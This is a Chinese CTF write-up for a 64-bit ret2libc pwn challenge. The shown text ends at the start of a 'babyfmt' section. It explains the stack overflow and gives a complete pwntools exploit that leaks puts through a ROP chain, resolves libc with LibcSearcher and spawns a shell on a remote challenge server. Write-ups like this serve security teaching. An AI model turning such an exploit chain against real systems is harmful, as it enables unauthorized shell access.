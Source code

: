 ### ret2libc

查看保护

![image-20221006235513133](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006235513133.png)

只开了NX

程序也很简单，一个read读取越界就完了，使用了puts，同时有gadget

![image-20221006235906523](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006235906523.png)

则可以用puts先泄露出libc的偏移，然后再次执行main函数，最后getshell（这里要用到LibcSearcher）

payload2里面的 ret 用来平衡栈，64位程序只有在栈为16字节对齐时才会调用函数

exp:

```C
#!/usr/bin/env python3
from pwn import*
from LibcSearcher import*

io = remote("124.223.158.81", 27006)
#io = process("./ret2libc")
elf = ELF("./ret2libc")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x40117e

offset = 0x40 + 0x8
main = elf.symbols['main']
payload1 = ('A'*offset).encode() + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.recvline()
io.sendline(payload1)

puts = u64(io.recv(6).ljust(8, b'\x00'))
#print(puts)

libc = LibcSearcher("puts", puts)
libcbase = puts - libc.dump('puts')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')
sys_addr = libcbase + libc.dump('system')
ret_addr = 0x40117f

payload2 = ('A'*offset).encode() + p64(ret_addr) + p64(pop_rdi) + p64(bin_sh_addr) + p64(sys_addr)
io.sendline(payload2)

io.interactive()
```

### babyfmt
